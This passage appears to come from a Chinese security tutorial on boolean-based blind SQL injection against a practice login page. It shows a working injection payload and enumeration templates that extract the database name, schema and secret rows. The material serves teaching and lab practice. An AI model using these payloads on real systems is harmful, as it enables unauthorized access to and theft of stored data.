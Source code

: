 这样一来我们就只能知道自己是否登录成功，并不能看到查询返回的结果了

![](https://cdn.xyxsw.site/boxcn2seUNESHkLC9PYvDp0vFbe.png)

那也就是说，我们无法直观地查看数据库中的数据了，即便查出了不该查的也看不到了 :-(

那有没有什么办法击破这个限制呢？是时候该本章的主角，布尔盲注出场了

观察程序的逻辑，如果查询特定用户的密码与用户的输入匹配，则登陆成功，否则登陆失败

我们是否能控制语句是否将对应用户的密码查询出来呢？

在 MySQL 中有一种格式为 `if(expression, if_true, if_false)` 的分支语句

类比 Python 则可以写成

```python
if (expression):
    if_true
else:
    if_false
```

如果我们可以通过 `if` 语句来控制整个 SQL 语句是否查询成功，不就可以获取一些信息了吗？

当 if 语句为真时才将对应用户的密码查询出来，这样一来就能够通过用户验证，结果即为登陆成功

当 if 语句为假时则不将对应用户的密码查询出来，程序无从比对，也就无法通过用户验证了

有点抽象？没关系继续往下看。

构造语句 `Liki4' and if(@@version rlike '^5',1,0);#`

> rlike 是 MySQL 中的一个关键字，是 regex 和 like 的结合体

![](https://cdn.xyxsw.site/boxcnJEeAKow3ZhUSvbL4FQXxOh.png)

这里实际执行的语句就变成了

```sql
SELECT password FROM users WHERE username = 'Liki4' AND if(@@version rlike '^5',1,0);
```

![](https://cdn.xyxsw.site/boxcnJ3jImTQcMUOWJclTACj74e.png)

```sql
SELECT password FROM users WHERE username = 'Liki4' AND if(@@version rlike '^8',1,0);
```

![](https://cdn.xyxsw.site/boxcnEDPFbKQ6iaM5WhHWUWmI5d.png)

也就是说，当 if 语句中的条件为真时，这个查询才会将 password 查询出来

如果 if 语句为假，这个条件为假的查询就不成立，查询的结果也为空了

从上面这个例子里我们就可以得出当前 MySQL 为 MySQL 5

如此一来我们就可以通过枚举爆破得到数据库名，表名，列名，进而得到数据库中存储的数据了

其中关键的语句如下

```sql
if(DATABASE() rlike '^{exp}',1,0) # 获取数据库名
if((SELECT GROUP_CONCAT(table_name, ':', column_name) FROM information_schema.COLUMNS WHERE TABLE_SCHEMA = DATABASE()) rlike '^{exp}',1,0) # 获取表名与字段名
if((SELECT binary GROUP_CONCAT(secret_string) FROM secret) rlike '^{exp}',1,0) # 获取存储的数据
```
